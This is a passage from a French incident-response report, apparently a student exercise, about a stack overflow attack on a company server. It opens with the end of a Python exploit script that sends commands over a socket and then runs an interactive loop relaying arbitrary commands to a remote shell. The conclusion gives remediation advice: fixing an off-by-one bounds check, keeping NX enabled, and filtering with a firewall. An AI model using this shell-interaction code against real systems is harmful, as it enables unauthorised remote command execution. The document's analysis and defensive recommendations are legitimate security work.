print("Output from instruction: ", out.decode())

s.send(b'chmod u-w A9826\n')
out = s.recv(4096)
print("Output from instruction: ", out.decode())

s.send(b'exit\n')
out = s.recv(4096)
print("Output from instruction: ", out.decode())

# if the shell is open, we can execute whatever we want
while True:
    user_in = input("$ ")
    if user_in == "exit":
        s.send(b'exit\n')
        break
    s.send(str.encode(user_in + '\n'))
    out = s.recv(1024)
    print(" %r" % out)

s.close()
```

## Conclusion

Voici le résultat de notre travail, la faille a été mise au grand jour et d'après nos analyses la vulnérabilité est majoritairement liée au code source du serveur.  
Il y a eu donc une attaque en Stack Overflow où l'attaquant a réussi à déborder de la pile pour écrire à &RET et pouvoir exécuter du code malveillant. Cela lui a permis d'avoir un accès à un terminal de la machine du serveur et de pouvoir faire ce que bon lui semble.

Pour vous aider à combler cette faille, voici nos recommandations:

- Modifier le code source pour bien empêcher l'écriture hors de l'espace mémoire alloué en changeant la condition dans le test conditionnel. Ne pas copier le message si il est supérieur ou égal à la taille du buffer et non pas seulement strictement supérieur! (changer `msg.len > BUFFERLENGTH` en `msg.len >= BUFFERLENGTH`).
- Ne pas faire tourner votre serveur avec le bit NX désactivé, cela diminuera les risques. (`B2B-OPTS="-p 6000 -x 0` en `B2B-OPTS="-p 6000`)
- Durcir votre politique de sécurité dans le firewall, en empêchant des des paquets aussi gros d'être reçu on en filtrant les paquets ayant des caractères suspicieux.
- Ou fixer directement le format des payload du echo `snprintf(*response, len, "%s", echo)`.

Enfin, étant donné à quel point l'attaque est spécifique à votre système (ex. ils savent que le bit NX est désactivé) et à votre code source (for loop), il est possible que l'attaquant soit proche de la société Pressoare. Il pourrait être un client, voire un ancien employé.

Bien à vous, je vous souhaite bonne continuation. En espérant que cet incident ne vous vaudra pas trop de préjudices.

Arthur et Léo
